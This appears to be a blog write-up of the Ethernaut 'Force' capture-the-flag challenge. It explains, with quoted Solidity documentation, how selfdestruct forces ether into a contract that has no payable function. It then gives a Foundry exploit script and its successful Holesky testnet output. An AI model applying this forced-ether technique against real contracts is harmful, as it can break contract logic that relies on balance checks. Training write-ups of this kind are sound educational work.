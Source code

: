```yaml
---
layout: post
title: "[Ethernaut] Force"
tags: blockchain ethernaut foundry selfdestruct
---
```


# Analysis

---
The goal is

1. make the balance of the contract greater than zero

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

[Solidity 0.8.30 Documentation - sending and receiving ether](https://docs.soliditylang.org/en/latest/security-considerations.html#sending-and-receiving-ether)

> 💡 Neither contracts nor “external accounts” are currently able to prevent someone from sending them Ether. Contracts can react on and reject a regular transfer, but there are ways to move Ether without creating a message call. One way is to simply “mine to” the contract address and the second way is using `selfdestruct(x)`.


[Solidity 0.8.30 Documentation - deactivate and self destruct](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#deactivate-and-self-destruct)

The `selfdestruct()` function removes code from blockchain.

It move Ether stored in the contract to a specified address without creating a message call.

Even if a contract’s code does not contain a call to selfdestruct, it can still perform that operation using delegatecall or callcode.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Force.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    constructor(address payable force_) payable {
        selfdestruct(force_);
    }
}

contract ForceSol is Script {

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        new Ex{value: 1 wei}(payable(0xD38Cdc747b3Fdc5B553ec592a89b92db3015c2e6));

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/ForceSol.sol --broadcast --tc ForceSol
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001062799 gwei

Estimated total gas used for script: 83584

Estimated amount required: 0.000000088832991616 ETH

==========================

##### holesky
✅  [Success] Hash: 0xfe8f4a467eb59cc75d1969cbcb0338d23b568d91028e387bba6bcebb5c605526
Contract Address: 0xfF2baB3F127feb02B77A4dBd869b25f63d442b79
Block: 3677667
Paid: 0.000000068333210136 ETH (64296 gas * 0.001062791 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000068333210136 ETH (64296 gas * avg 0.001062791 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image getbalance]({{site.url}}/images/2025-04-19-Force/getbalance.png)

![Image complete]({{site.url}}/images/2025-04-19-Force/complete.png)
